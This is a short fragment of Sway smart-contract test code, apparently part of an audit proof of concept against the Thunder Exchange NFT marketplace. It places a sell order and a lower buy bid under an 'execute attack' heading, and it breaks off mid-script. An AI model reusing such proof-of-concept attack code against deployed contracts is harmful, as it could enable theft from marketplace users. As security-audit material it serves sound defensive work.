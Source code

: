 ```sway

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Sell,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    let bidder = Address::from(0xf9d8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);



    
    let maker_order_bid = MakerOrderInput {
     side: Side::Buy,
     maker:bidder,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 5u64, // offer 5 tokens (bid)
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order); // this could be called as .call {gas: 5000, asset_id : NFT_id, coins: 1 } but since this not possible in sway test then you need to comment the require check in the place_order--> order.sell
    thunder_exch.place_order(maker_order_bid);

/*
    script;

use interfaces::{
    pool_interface::Pool,
    thunder_exchange_interface::ThunderExchange,
};

use libraries::{
    order_types::*,
```